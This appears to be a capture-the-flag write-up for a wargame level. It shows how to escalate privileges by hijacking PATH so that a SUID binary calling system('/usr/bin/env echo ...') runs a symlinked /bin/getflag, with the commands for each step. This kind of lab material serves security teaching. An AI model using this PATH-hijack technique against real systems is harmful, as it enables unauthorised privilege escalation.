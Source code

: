 ### Solution

1. **List files in the home directory:**

	```bash
	ls -l
	```

	You’ll see the following SUID binary:

	```
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
	```

	This binary is **owned by `flag03`** and **has the SUID bit set**, meaning it runs with `flag03`’s privileges when executed.

2. **Transfer the executable file to your host machine:**

	From your host, use `scp` to copy the file:

	```bash
	scp -P 4242 level03@<vm-ip>:~/level03 .
	```

3. **Analyze the binary with Ghidra:**

	Using Ghidra you’ll discover the binary runs:

	```c
	system("/usr/bin/env echo Exploit me");
	```

	This means it uses `/usr/bin/env` to find and execute the first `echo` command in your `$PATH`.

4. **Exploit it by creating a link between files**

	Create a directory and a fake `echo` that actually runs `getflag`:

	```bash
	ln -s /bin/getflag /tmp/echo
	```

5. **Set your custom `PATH`**

	```bash
	export PATH=/tmp
	```

6. **Run the vulnerable binary**

	```bash
	./level03
	```

	Since the binary runs `system("/usr/bin/env echo ...")`, and your `PATH` has a fake `echo`, this runs:

	```
	/bin/getflag
	```

	You’ll receive the `flag03` token.
